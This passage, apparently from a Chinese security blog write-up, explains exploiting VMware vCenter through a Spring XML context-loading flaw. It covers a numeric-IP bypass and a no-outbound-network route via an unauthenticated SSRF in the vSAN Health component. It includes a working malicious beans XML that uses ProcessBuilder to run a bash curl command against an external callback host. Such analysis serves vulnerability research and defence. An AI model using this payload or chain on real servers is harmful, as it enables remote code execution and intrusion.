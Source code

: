 需要注意的是，在 SpringContextLoader  
 的 getContextFileNameForPackage  
 会将路径中的 .  
 替换为 /  
，所以无法指定一个正常的 IPv4 地址，但是可以利用数字型 IP 绕过：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvou8FtczP1UexicmKrXOnWtTDorOmtLA7pyFK9Ia3y5yCZwyJW5mlSxDbh3CwibA24O4FfZoKI1RibXiciag/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205071838732.png-water_print")  
  
XML 文件内容及攻击效果如下：  
```
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:context="http://www.springframework.org/schema/context"
xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd http://www.springframework.org/schema/context https://www.springframework.org/schema/context/spring-context.xsd">

<bean id="pb" class="java.lang.ProcessBuilder">
<constructor-arg>
<list>
<value>/bin/bash</value>
<value>-c</value>
<value>curl http://dj0esgxds3fv9m4a0a6dzorr0i69uy.oastify.com</value>
</list>
</constructor-arg>
<property name="whatever" value="#{pb.start()}" />
</bean>
</beans>

```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvou8FtczP1UexicmKrXOnWtTDopTZcChpA57wuiayeTynyLE0VialvFWaD9FD7FMl8t0byrA9abOqeuCIg/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205071839644.png-water_print")  
##### 不出网利用  
  
若要利用此漏洞，本质上需要获取一个 XML 文件的内容，而 Java 的 URL 并不支持 data 协议，那么需要返回内容可控的 SSRF 或者文件上传漏洞。这里利用的是返回内容可控的 SSRF 漏洞。漏洞位于 /usr/lib/vmware-vpx/vsan-health/pyMoVsan/  
 下的 vSAN Health 组件中 VsanHttpProvider.py  
 存在一个未授权访问 SSRF。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvou8FtczP1UexicmKrXOnWtTDoG0q0EwrCwZVlgQBnXrheCxtBomyOaa1Tf8xE2ydKJMzxZOibibvhJXcg/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205072016217.png-water_print")  
  
漏洞点是 238 行 urlopen  
 库函数进行 HTTP 请求，接着将返回内容在内存中进行解压，并且匹配文件名为 .*offline_bundle.*  
 的内容并进行返回。Python 的 urlopen  
 支持 data 协议，所以可以构造一个压缩包并 Base64 编码，构造 data 协议的 URL：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvou8FtczP1UexicmKrXOnWtTDocNZgODlhQmtyJuwAZumCB7YDcMUiaeKrYiamsumOF6WjJdyHvk3fv62Q/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205072056316.png-water_print")  
  
在利用的过程中，将 IP 地址替换为 localhost 即可防止 .  
 被替换。由于这个路由在 6.5 版本的 vSAN Health 不存在，所以无法在 6.5 版本上不出网利用。  
  